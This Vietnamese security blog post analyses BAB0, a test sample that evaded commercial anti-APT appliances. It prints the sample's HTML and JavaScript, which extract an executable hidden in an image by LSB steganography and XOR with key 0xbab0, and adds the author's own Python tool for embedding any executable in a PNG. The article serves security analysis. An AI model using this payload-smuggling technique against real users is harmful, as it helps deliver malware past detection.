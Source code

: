 ```yaml
---
title: 'BAB0 &#8211; Tàng hình trước các hệ thống phòng chống tấn công có chủ đích'
author: tienpp
layout: post
category: news
excerpt: Chưa đầy một tháng trước. MRG Effitas và CrySyS Lab công bố một thông tin gây hoang mang các nhà sản xuất sản phẩm phát hiện tấn công có chủ đích (APT attack detection) như SourceFire (Cisco), Checkpoint, Damballa, Fidelis XPS, FireEye, Fortinet, LastLine, WildFire (Palo Alto), Deep Discovery (Trend Micro) và Websense. Hai ngày trước họ đã công bố các mẫu thử của mình.
thumbnail: /assets/2014/12/Unico_Anello1.png
tags:
  - APT attack
  - APT
  - BAB0
  - malware
---
```

***Chưa đầy một tháng trước. MRG Effitas và CrySyS Lab công bố một thông tin gây hoang mang các nhà sản xuất sản phẩm phát hiện tấn công có chủ đích (APT attack detection) như SourceFire (Cisco), Checkpoint, Damballa, Fidelis XPS, FireEye, Fortinet, LastLine, WildFire (Palo Alto), Deep Discovery (Trend Micro) và Websense. Hai ngày trước họ đã công bố các mẫu thử của mình. Chúng ta sẽ lượt sơ qua sự kiện này và xem xét mẫu thử của họ làm những gì.***

Tấn công có chủ đích và hệ thống phát hiện tấn công có chủ đích là gì?
----------------------------------------------------------------------

Tấn công có chủ đích (target attack/APT attack - advanced persistent threats) là thể loại tấn công mà mục tiêu là người dùng máy tính (nhân viên của công ty, cá nhân, chính trị gia...) được kẻ tấn công điều tra kĩ lưỡng và có những thủ đoạn tấn công lâu dài, khó phòng chống.

Các cuộc tấn công có chủ đích thường sử dụng các mã khai thác lỗi phần mềm và các phần mềm độc hại để nắm quyền kiểm soát lâu dài đối tượng bị tấn công.

Dựa vào những tính chất trên, các hệ thống chống tấn công có chủ đích chủ yếu hoạt động dựa trên: sự phát hiện dấu hiệu mã khai thác và phần mềm độc hại, phân tích dữ liệu mạng và phát hiện dấu hiệu liên lạc của phần mềm độc hại với trung tâm điều khiển[^detectapt].

bab0 và cách nó qua mặt các hệ thống phòng thủ
----------------------------------------------

Được giới thiệu trong một báo cáo mới đây chưa đầy 1 tháng[^testapt]. bab0 có kết quả kiểm tra là qua mặt tất cả các hệ thống phòng chống tấn công có chủ đích tốt nhất trên thị trường. Mới đây nhóm tác giả, họ đã công bố một mẫu của bab0[^introbab0], với những thiết kế bên trong như sau:

 - Không dùng một mã khai thác nào.
 - Phần mềm độc hại - để kiểm soát đối tượng - được chuyển đến nạn nhân thông qua một trang web giản đơn. Phần mềm này được nhúng trong một tệp ảnh bằng thủ thuật ẩn mình (Steganography). Không một hệ thống/phần mềm chống virus nào phát hiện điều này.
 - Phần mềm độc hại có cơ chế liên lạc với trung tâm điều khiển, cũng bằng cách ẩn các dữ liệu cần lưu chuyển qua các dữ liệu như là người dùng đang duyệt một diễn đàn.

Khám phá bab0
-------------

Bây giờ, chúng ta sẽ xem xét kĩ hơn về mặt bên trong của mẫu bab0 này. Đầu tiên là phần vận chuyển phần mềm điều khiển. Phần này là một trang HTML với một ảnh nền chứa phần mềm độc hại và một nhóm mã javascript để trích phần mềm đó. Giao diện của trang HTML này như hình dưới

![Hình tải về bab0]( {{site.url}}/assets/2014/12/save.png) 

Mã nguồn tệp index.html rất đơn giản:

    <!DOCTYPE html>
    <html lang="en">
      <head>
        <meta charset="utf-8">
        <title>Babo</title>
        <link rel="stylesheet" href="style.css">
        <script src="saver.js"></script>
        <script src="image.js"></script>
      </head>
      <body>
        <img id="foreground" src="hide.png">
      </body>
    </html>

Phần quan trọng nhất có lẽ là phần trích xuất tệp tin từ tệp ảnh nền trong image.js:

    // Getting the pixel data
      var canvas = document.createElement('canvas');
      canvas.width = buttonWidth;
      canvas.height = buttonHeight;
      var context = canvas.getContext("2d");
      context.fillStyle = 'rgba(255,255,255,255)';
      context.fillRect(0, 0, buttonWidth, buttonHeight);
      context.drawImage(img, 0, 0);
      var pixels = context.getImageData(0, 0, buttonWidth, buttonHeight).data;
    
      // Stego
      var bits = [];
      for (var i = 0; i < pixels.length; i++) {
        if (i % 4 != 3) {
          bits.push(pixels[i] & 1);
        }
      }
      var data = new ArrayBuffer((bits.length / 8) | 0);
      var bytes = new Uint8Array(data);
      for (var j = 0; j < bits.length / 8; j++) {
        var byte = 0;
        for (var k = 0; k < 8; k++) {
          byte += bits[j*8+k] << (7-k);
        }
        bytes[j] = byte;
      }
    
      // De-bab0-ing
      var key = [0xba, 0xb0];
      for (var l = 0; l < bytes.byteLength; l++) {
        bytes[l] ^= key[l % key.length]
      }


Đây chỉ là một thủ thuận ẩn giấu thông tin vào hình (LSB steganography) đơn giản: toàn bộ payload được XOR với khóa **0xbab0**. Tôi có viết sẵn một công cụ để tạo ra tệp tin hình chạy được với mã trích xuất này. Các bạn có thể sử dụng để thử nhúng bất kì tệp tin ứng dụng nào vào một tệp hình ảnh ưa thích với khóa bất kì. Nhớ là thay khóa tương ứng vào tệp image.js.

    from PIL import Image
    from bitstring import BitArray
    import math
    
    def xor(m, k):
    	enm = ''
    	for i in range(len(m)):
    		enm += chr(ord(m[i])^ord(k[i%len(k)]))
    	return enm
    	
    def hideBit(pixel, bit):
    	print bit,
    	print int(math.fmod(pixel,2))
    	if int(math.fmod(pixel,2)) != int(bit):
    		pixel = pixel + 1
    	print pixel
    	return pixel
    def pad(ctext):
    	x = len(ctext) % 3
    	print x
    	ctext = ctext + '0'*(3 - x)
    	return ctext
    
    def hideMessage(imgPath, outPath, text, key):
    	##make the cipher text to hide
    	ctext = BitArray(bytes=xor(text, key)).bin
    	ctext = pad(ctext)
    	##set up the image, based on the path
    	img = Image.open(imgPath)
    	pic = img.load()
    
    	##make a list of all pixels
    	pixelList = list(img.getdata())
    
    	if len(ctext) > len(pixelList)*3:
    		print 'image is too small, expected ' + ctext/3 + ' pixels'
    		return 0
    	##loop through the message and hide each bit
    	n = 0
    	for i in range(len(pixelList)):
    		print n, len(ctext)
    		if n >= len(ctext):
    			break
    		##grab the pixel
    		pixel = pixelList[i]
    		##hide the bit in the pixel
    		pixelList[i] = hideBit(pixel[0], ctext[i*3+0]), hideBit(pixel[1],ctext[i*3+1]), hideBit(pixel[2], ctext[i*3+2])
    		print pixelList[i]
    		n += 3
    		#raw_input()
    	##overwrite the new pixels onto the picture
    	img.putdata(pixelList)
    
    	try:
    		img.save(outPath, "PNG")
    	except IOError:
    		print "Unable to write back"
    
    def main():
    	imagePath = 'test.png'
    	outPath = 'hide.png'
    	message = open('file').read()
    	key = 'BB'
    	message = hex(len(message))[2:].rjust(8, '0').decode('hex')[::-1] + message
    	hideMessage(imagePath, outPath, message, key)
    
    	img1 = Image.open(imagePath)
    	img2 = Image.open(outPath)
    
    	print imagePath, img1.format, "%dx%d" % img1.size, img1.mode
    	print outPath, img2.format, "%dx%d" % img2.size, img2.mode
    
    ##Starts executing here
    main()

Sau khi trích xuất ra thì tệp tin được đưa ra dưới dạng tải về, các chi tiết này không có gì quan trọng được thể hiện ở trong tệp image.js

Phần mã độc mà nhóm trên cung cấp chỉ là một giả lập đơn giản, chủ yếu là thử nghiệm cách thức giao tiếp thông qua cách giả là một giao tiếp bình thường tới một diễn đàn là trung tâm điều khiển. Tôi có chạy trong cuckoo sandbox và kết quả ở đây - https://malwr.com/analysis/ZmYyYTVjNzU2YmIyNGFkMzg2MzRiMDRkOGI4ZTEyOTY/ . Đồng thời có đính kèm tệp tin chứa các dữ liệu mạng khi chạy bab0 ở đây - http://www.mediafire.com/download/hba7hpx84pass3w/babo.pcapng

[^detectapt]: [Detecting](http://www.trendmicro.com/cloud-content/us/pdfs/security-intelligence/white-papers/wp-detecting-apt-activity-with-network-traffic-analysis.pdf)  APT Activity with Network Traffic Analysis

[^testapt]: [An independent test](https://blog.mrg-effitas.com/wp-content/uploads/2014/11/Crysys_MRG_APT_detection_test_2014.pdf) of APT attack detection appliances

[^introbab0]: [Anti-APT product test sample "BAB0"](http://blog.crysys.hu/2014/12/anti-apt-product-test-sample-bab0-is-shared-for-security-experts/) is shared for security experts
